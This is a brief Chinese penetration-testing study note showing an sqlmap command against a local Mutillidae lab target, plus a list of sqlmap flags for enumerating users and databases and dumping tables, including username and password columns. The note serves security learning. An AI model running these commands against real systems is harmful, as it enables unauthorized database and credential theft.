 ```shell
sqlmap -u "http://192.168.19.129/mutillidae/index.php?page=user-info.php&username=sss&password=ssss&user-info-php-submit-button=View+Account+Details" --users
```

![SQLInjection获取所有用户](../../../MarkdownImgs/安全技术/渗透测试/安全学习笔记/SQLInjection获取所有用户.png)



sqlmap常用参数：

```shell
# 获取所有用户
--users
# 获取当前用户
--current-user
# 获取所有数据库
--dbs
# 获取当前数据库
--current-db
# 获取指定库中的所有表信息
-D "database_name" --tables
# 获取指定库中的指定表中的所有列信息
-D "database_name" -T "table_name" --columns

# 当下所有数据库
--dump-all
--dump-all --exclude-sysdbs
-D "database_name" -T "table_name" --dump
-D "datebase_name" -T "table_name" -C "username,password" --dump

# 自动化完成
--batch					
```
